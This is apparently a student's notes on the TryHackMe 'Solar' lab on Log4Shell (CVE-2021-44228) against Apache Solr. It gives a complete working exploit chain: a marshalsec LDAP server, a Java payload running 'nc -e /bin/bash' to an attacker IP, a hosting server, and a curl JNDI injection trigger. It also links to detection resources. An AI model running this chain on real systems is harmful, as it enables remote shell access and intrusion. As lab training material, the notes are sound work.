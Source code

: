 # Solar, exploiting log4j
Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun

https://tryhackme.com/room/solar

This room is about the so called log4JShell
## Resources
- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://log4shell.huntress.com/
- https://www.youtube.com/watch?v=7qoPDq41xhQ
- https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI- LDAP-Manipulation-To-RCE.pdf
- https://youtu.be/OJRqyCHheRE showcase
- https://github.com/mbechler/marshalsec


### Notes for Task 4
scanning target machine and look for open ports
```
PORT     STATE SERVICE REASON  VERSION
8983/tcp open  http    syn-ack Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.49.80:8983/solr/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
```
my ip address:
`ip -br -c a`
10.0.2.15

open an netcat listner on port 9999
`nc -lnvp 9999`

hmpf. in my kali vm i didn't get anything back.
Trying it in attackbox then I got a connection back. 

:(

go forward with the attackbox
## Task 5 Exploitation

build the marshalsec tool which is located /Rooms/solar/marshalsec  
`mvn clean package -DskipTests`


start LDAP Server    
`java -cp target/marshalsec-0.0-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.137.212:8000/#Exploit` 
Listening on 0.0.0.0:1389 

Programm the payload for the reverse shell.  
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
compile  
`javac Exploit.java -source 8 -target 8`

start http server to host payload
`python3 -m http.server` 

open a new terminal and trigger the exploit  
`curl 'http://10.10.82.10:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.137.212:1389/Exploit\}'
`
* Hurra we have a reverse shell *

When you run the curl command to trigger the exploit, you should sequentially see:

1. A connection made on your LDAP server,
2. A connection made on your HTTP server,
3. A connection made in your netcat listener.

Once you receive a connection, you may not see a "prompt." You can still enter commands to check if you do have the shell.


## Task 6 Persistence
try to find out some users and credentials to get access to victim via ssh.

`whoami` -> solr




Below are snippets that might help either effort:

    https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes (local, based off hashes of log4j JAR files)
    https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d (local, based off hashes of log4j CLASS files)
    https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228 (listing of vulnerable JAR and CLASS hashes)
    https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1 (local, hunting for vulnerable log4j packages in PowerShell)
    https://github.com/darkarnium/CVE-2021-44228 (local, YARA rules)

As a reminder, a massive resource is available here: 

https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
